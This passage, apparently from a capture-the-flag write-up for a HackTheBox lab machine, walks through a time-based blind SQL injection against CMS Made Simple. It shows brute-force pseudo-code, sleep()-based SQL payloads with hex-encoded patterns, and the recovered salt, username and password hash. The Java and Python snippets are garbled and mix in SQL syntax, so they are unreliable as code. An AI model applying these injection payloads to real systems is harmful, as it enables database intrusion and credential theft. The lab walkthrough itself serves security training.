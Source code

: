 ```java
    // The characteres will be concat 
    // db_name = a
    // db_name = ad
    // db_name = admi
    // db_name = admin

    WHERE username LIKE db_name
}

In some moment the 
```
####
Is a aproximation in **Java** in **Python3** will be:
####
```python
# Is the same of the java code only transformed to python
db_name = ""
for i in range(0, len(dictionary)):
    db_name += dictionary[i]
    if username.startswith(db_name) OR if username.index(i) == db_name.index(i)

    # The characteres will be concat 
    # db_name = a
    # db_name = ad
    # db_name = admi
    # db_name = admin

    WHERE username LIKE db_name
```
####
The same happend with the other functions:
####
```sql
SELECT sleep(1) FROM cms_users WHERE password LIKE 0x{dictionary[i]}25 AND user_id LIKE 0x31--
SELECT sleep(1) FROM cms_siteprefs WHERE sitepref_value LIKE 0x{dictionary[i]}25 AND sitepref_name LIKE 0x736974656d61736b--

-- The date is encoded in hex:
    -- 25 = %
    -- 31 = 1
    -- 736974656d61736b = sitemask
```
####
You can decode that data for see in plane text using **echo** and **xxd** command: `echo '0x736974656d61736b' | xxd -r -p`
####
| Xxd param | Description |
| ----- | ----- |
| -r | Reverse operation: convert (or patch) hexdump into binary |
| -p | Print the specified data as pure hex bytes, with no newlines |
####
So after that, the payload report us the next information: 
####
```perl
[+] Salt for password found: 5a599ef579066807
[+] Username found: jkr
[+] Email found: jkr@writeup.htb
[+] Password found: 62def4866937f08cc13bab43bb14e6f7
```
####
